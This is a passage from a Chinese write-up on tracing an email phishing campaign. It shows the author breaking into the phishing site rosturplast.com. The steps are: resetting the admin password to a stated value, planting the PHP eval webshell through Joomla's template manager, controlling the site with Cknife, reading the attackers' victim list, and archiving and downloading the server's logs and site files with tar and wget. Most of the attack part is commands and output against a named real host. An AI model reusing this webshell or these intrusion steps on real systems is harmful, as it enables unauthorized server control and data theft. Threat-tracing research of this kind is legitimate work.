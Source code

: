 

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548384595_5c4a7953cc7d9.png!small)![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548384606_5c4a795e6a040.png!small)

备份原始密文以备还原将后台密码修改为 test123456XYZ

1. `http://www.rosturplast.com/administrator/`
2. `admin / test123456XYZ`

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548384620_5c4a796c029bb.png!small)

登录后台通过模板写入WebShell

> Extensions —> Template Manager —> Template —> New Files —> PHP WebSehll

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548384650_5c4a798a56cb9.png!small)

这里写入了PHP一句话WebShell通过Cknifejava版中国菜刀对网站进行控制。

1. `<?php @eval($_POST['cmd']);?>`

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548384686_5c4a79ae6a0d8.png!small)

查看攻击者的钓鱼文件目录`user.txt` 详细记录了上钩的受害者信息

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548384708_5c4a79c4aad6d.png!small)

### 3.4 日志分析

将网站文件和访问日志下载到本地分析

1. `[/tmp]$ tar zcvf /var/www/rosturpl/data/www/rosturplast.com/log.tar.gz /var/www/rosturpl/data/access-logs/var/www/rosturpl/data/logs/rosturplast*`
2. 
3. `[/tmp]$ tar zcvf /var/www/rosturpl/data/www/rosturplast.com/www.tar.gz --exclude=/var/www/rosturpl/data/www/rosturplast.com/www.tar.gz /var/www/rosturpl/data/www/rosturplast.com/`
4. 
5. `wget -c http://www.rosturplast.com/log.tar.gz && wget -c http://www.rosturplast.com/www.tar.gz`
6. 
7. `⚡ root@kali /tmp gzip -d *.gz`
8. `⚡ root@kali /tmp ls -lh`
9. 
10. `总用量 22M`
11. `-rw-r----- 1 48 6313 392K 11月 30 16:19 rosturplast.com.access.log`
12. `-rw-r----- 1 48 6313 418K 11月 21 08:08 rosturplast.com.access.log-20181121`
13. `-rw-r----- 1 48 6313 315K 11月 22 08:27 rosturplast.com.access.log-20181122`
14. `-rw-r----- 1 48 6313 367K 11月 23 08:08 rosturplast.com.access.log-20181123`
15. `-rw-r----- 1 48 6313 332K 11月 24 08:20 rosturplast.com.access.log-20181124`
16. `-rw-r----- 1 48 6313 394K 11月 25 08:30 rosturplast.com.access.log-20181125`
17. `-rw-r----- 1 48 6313 217K 11月 26 08:27 rosturplast.com.access.log-20181126`
18. `-rw-r----- 1 48 6313 338K 11月 27 08:07 rosturplast.com.access.log-20181127`
19. `-rw-r----- 1 48 6313 1.8M 11月 28 08:35 rosturplast.com.access.log-20181128`
20. `-rw-r----- 1 48 6313 2.3M 11月 29 08:38 rosturplast.com.access.log-20181129`
21. `-rw-r----- 1 48 6313 6.4M 11月 30 08:38 rosturplast.com.access.log-20181130`
22. `-rw-rw---- 1 48 6313 267K 11月 30 16:00 rosturplast.com.error.log`
23. `-rw-rw---- 1 48 6313 3.8K 11月 21 03:44 rosturplast.com.error.log-20181121`
24. `-rw-rw---- 1 48 6313 1.9K 11月 21 14:43 rosturplast.com.error.log-20181122`
25. `-rw-rw---- 1 48 6313 1.9K 11月 23 02:30 rosturplast.com.error.log-20181123`
26. `-rw-rw---- 1 48 6313 5.0K 11月 24 01:46 rosturplast.com.error.log-20181124`
27. `-rw-rw---- 1 48 6313 8.3K 11月 25 02:07 rosturplast.com.error.log-20181125`
28. `-rw-rw---- 1 48 6313 2.3K 11月 26 05:05 rosturplast.com.error.log-20181126`
29. `-rw-rw---- 1 48 6313 4.1K 11月 27 05:34 rosturplast.com.error.log-20181127`
30. `-rw-rw---- 1 48 6313 550K 11月 28 08:35 rosturplast.com.error.log-20181128`
31. `-rw-rw---- 1 48 6313 6.5M 11月 29 07:51 rosturplast.com.error.log-20181129`
32. `-rw-rw---- 1 48 6313 1.4M 11月 30 08:38 rosturplast.com.error.log-20181130`
